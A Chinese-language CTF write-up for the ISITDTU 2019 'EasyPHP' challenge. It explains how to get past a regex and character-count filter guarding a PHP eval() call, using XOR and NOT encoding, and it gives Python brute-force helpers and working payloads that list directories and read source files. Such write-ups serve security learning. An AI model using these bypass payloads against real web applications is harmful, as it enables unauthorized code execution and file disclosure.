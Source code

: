 # [ISITDTU 2019]EasyPHP

## 取反、异或绕过正则

```php
<?php
highlight_file(__FILE__);

$_ = @$_GET['_'];
if ( preg_match('/[\x00- 0-9\'"`$&.,|[{_defgops\x7F]+/i', $_) )
    die('rosé will not do it');

if ( strlen(count_chars(strtolower($_), 0x3)) > 0xd )
    die('you are so close, omg');

eval($_);
?>
```

想办法绕过两个正则

```
\x00- 0-9                       匹配\x00到空格(\x20)，0-9的数字
'"`$&.,|[{_defgops              匹配这些字符
\x7F                            匹配DEL(\x7F)字符
```

匹配到以上字符就die

```php
if ( strlen(count_chars(strtolower($_), 0x3)) > 0xd )
    die('you are so close, omg');
```

当mode=3: 会返回包含所有用过的不同字符的字符串

![在这里插入图片描述]([ISITDTU 2019]EasyPHP/20200427132852784.png)

`strlen(count_chars(strtolower($_),0x3))>0xd`的意思也就是不能提交超过13（<=13）种字符

测试一下可用函数

![image-20210807101636215]([ISITDTU 2019]EasyPHP/image-20210807101636215.png)

```php
<?php
$array=get_defined_functions();//返回所有内置定义函数
foreach($array['internal'] as $arr){
    if ( preg_match('/[\x00- 0-9\'"\`$&.,|[{_defgops\x7F]+/i', $arr) ) continue;
    if ( strlen(count_chars(strtolower($arr), 0x3)) > 0xd ) continue;
    print($arr.'<br/>');
}
```

正则并没有过滤`~`和`^`字符，可用利用取反编码绕过和异或绕过

![image-20210807102230213]([ISITDTU 2019]EasyPHP/image-20210807102230213.png)

![image-20210807102420626]([ISITDTU 2019]EasyPHP/image-20210807102420626.png)

暴力搜索符合条件字符串

```python
final_string="phpinfo"
allowed="!#%()*+-/:;<=>?@ABCHIJKLMNQRTUVWXYZ\]^abchijklmnqrtuvwxyz}~"
for a in final_string:    
    for i in allowed:
        for p in allowed:
            if ord(i)^ord(p)==ord(a):
                print("i=%s p=%s a=%s"%(i,p,a))
```

phpinfo=%8f%97%8f%96%91%99%90^%ff%ff%ff%ff%ff%ff%ff

查看`disable_functions`

```
pcntl_alarm,pcntl_fork,pcntl_waitpid,pcntl_wait,pcntl_wifexited,pcntl_wifstopped,pcntl_wifsignaled,pcntl_wifcontinued,pcntl_wexitstatus,pcntl_wtermsig,pcntl_wstopsig,pcntl_signal,pcntl_signal_get_handler,pcntl_signal_dispatch,pcntl_get_last_error,pcntl_strerror,pcntl_sigprocmask,pcntl_sigwaitinfo,pcntl_sigtimedwait,pcntl_exec,pcntl_getpriority,pcntl_setpriority,pcntl_async_signals,system,exec,escapeshellarg,escapeshellcmd,passthru,proc_close,proc_get_status,proc_open,shell_exec,mail,imap_open,
```

我们可以用[scandir()](https://www.w3school.com.cn/php/func_directory_scandir.asp) 或者 [glob()](https://www.w3school.com.cn/php/func_filesystem_glob.asp)函数列目录，但它返回一个数组，我们还需要一个print_r或var_dump

发现可以运行，但是count_chars那里过不去，我们一共用了16个不同字符，下一步是缩减字符数。

```python
result2 = [0x8b, 0x9b, 0xa0, 0x9c, 0x8f, 0x91, 0x9e, 0xd1, 0x96, 0x8d, 0x8c]  # Original chars,11 total
result = [0x9b, 0xa0, 0x9c, 0x8f, 0x9e, 0xd1, 0x96, 0x8c]  # to be deleted
temp = []
for d in result2:
    for a in result:
        for b in result:
            for c in result:
                if (a ^ b ^ c == d):
                    if a == b == c == d:
                        continue
                    else:
                        print("a=0x%x,b=0x%x,c=0x%x,d=0x%x" % (a, b, c, d))
                        if d not in temp:
                            temp.append(d)
print(len(temp), temp)
```

除了必要的()^;以外，我们最多剩余9个字符的空间，逐步删除result里的值，当结果仍能保持11个，就意味着我们可以继续删除了。

```php
print_r(scandir(.));=((%9b%9c%9b%9b%9b%9b%9c)^(%9b%8f%9b%9c%9c%9b%8f)^(%8f%9e%96%96%8c%a0%9e)^(%ff%ff%ff%ff%ff%ff%ff))(((%9b%9b%9b%9b%9b%9b%9c)^(%9b%9b%9b%9c%a0%9b%8f)^(%8c%9c%9e%96%a0%96%9e)^(%ff%ff%ff%ff%ff%ff%ff))(%d1^%ff));
```

```python
result2 = [160, 136, 138, 140, 141, 144, 145, 209, 150, 151, 154, 155, 156, 158]  # Original chars,14 total
result = [160, 136, 141, 209, 151, 154, 155, 156]
temp = []
for d in result2:
    for a in result:
        for b in result:
            for c in result:
                if (a ^ b ^ c == d):
                    if (a == b == c == d) or (a==b) or (b==c) or (c==d) or(a==c):
                        continue
                    else:
                        print("a=0x%x,b=0x%x,c=0x%x,d=0x%x" % (a, b, c, d))
                        if d not in temp:
                            temp.append(d)
print(len(temp), temp)
```

```php
show_source(end(scandir(.)));=((%8d%9c%97%a0%88%8d%97%8d%9c%a0%a0)^(%9a%97%9b%88%a0%9a%9b%9b%8d%9c%9a)^(%9b%9c%9c%a0%88%9b%9c%9c%9c%a0%a0)^(%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff))(((%a0%97%8d)^(%9a%9a%9b)^(%a0%9c%8d)^(%ff%ff%ff))(((%8d%a0%88%97%8d%9b%9c)^(%9a%9c%8d%9a%9b%9a%8d)^(%9b%a0%9b%9c%8d%97%9c)^(%ff%ff%ff%ff%ff%ff%ff))(%d1^%ff)));
```

scandir返回的是个数组，且刚才的结果显示我们要找的文件在scandir的结果最后面，那么用end()方法就可以得到文件名了。读文件可以用show_source或者readfile

```python
result2 = [160, 136, 138, 140, 141, 144, 145, 209, 150, 151, 154, 155, 156, 158]  # Original chars,14 total
result = [160, 136, 141, 209, 151, 154, 155, 156]
temp = []
for d in result2:
    for a in result:
        for b in result:
            for c in result:
                if (a ^ b ^ c == d):
                    if (a == b == c == d) or (a==b) or (b==c) or (c==d) or(a==c):
                        continue
                    else:
                        print("a=0x%x,b=0x%x,c=0x%x,d=0x%x" % (a, b, c, d))
                        if d not in temp:
                            temp.append(d)
print(len(temp), temp)
```

```php
show_source(end(scandir(.)));=((%8d%9c%97%a0%88%8d%97%8d%9c%a0%a0)^(%9a%97%9b%88%a0%9a%9b%9b%8d%9c%9a)^(%9b%9c%9c%a0%88%9b%9c%9c%9c%a0%a0)^(%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff))(((%a0%97%8d)^(%9a%9a%9b)^(%a0%9c%8d)^(%ff%ff%ff))(((%8d%a0%88%97%8d%9b%9c)^(%9a%9c%8d%9a%9b%9a%8d)^(%9b%a0%9b%9c%8d%97%9c)^(%ff%ff%ff%ff%ff%ff%ff))(%d1^%ff)));
```

![image-20210807104210002]([ISITDTU 2019]EasyPHP/image-20210807104210002.png)